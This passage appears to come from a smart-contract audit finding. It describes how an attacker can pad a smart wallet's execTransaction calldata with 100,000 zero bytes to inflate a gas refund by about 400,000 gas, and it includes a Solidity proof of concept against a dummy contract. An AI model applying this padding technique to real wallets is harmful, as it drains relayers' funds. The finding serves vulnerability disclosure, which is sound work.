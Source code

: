 ### [](#proof-of-concept)Proof of Concept

The PoC shows that the function may accept the data with redundant zeroes at the end. At the code above, an attacker send a 100\_000 meaningless zeroes bytes, that gives a `100_000 * 4 = 400_000` additional gas refund. Technically, it is possible to pass even more zero bytes.

    pragma solidity ^0.8.12;
    
    contract DummySmartWallet {
        function execTransaction(
            Transaction memory _tx,
            uint256 batchId,
            FeeRefund memory refundInfo,
            bytes memory signatures
        ) external {
            // Do nothing, just test that data with appended zero bytes are accepted by Solidity
        }
    }
    
    contract PoC {
        address immutable smartWallet;
    
        constructor() {
            smartWallet = address(new DummySmartWallet());
        }
    
        // Successfully call with original data
        function testWithOriginalData() external {
            bytes memory txCalldata = _getOriginalTxCalldata();
    
            (bool success, ) = smartWallet.call(txCalldata);
            require(success);
        }
    
        // Successfully call with original data + padded zero bytes
        function testWithModifiedData() external {
            bytes memory originalTxCalldata = _getOriginalTxCalldata();
            bytes memory zeroBytes = new bytes(100000);
    
            bytes memory txCalldata = abi.encodePacked(originalTxCalldata, zeroBytes);
    
            (bool success, ) = smartWallet.call(txCalldata);
            require(success);
        }
    
        function _getOriginalTxCalldata() internal pure returns(bytes memory) {
            Transaction memory transaction;
            FeeRefund memory refundInfo;
            bytes memory signatures;
            return abi.encodeWithSelector(DummySmartWallet.execTransaction.selector, transaction, uint256(0), refundInfo, signatures);
        }
    }

### [](#impact-1)Impact

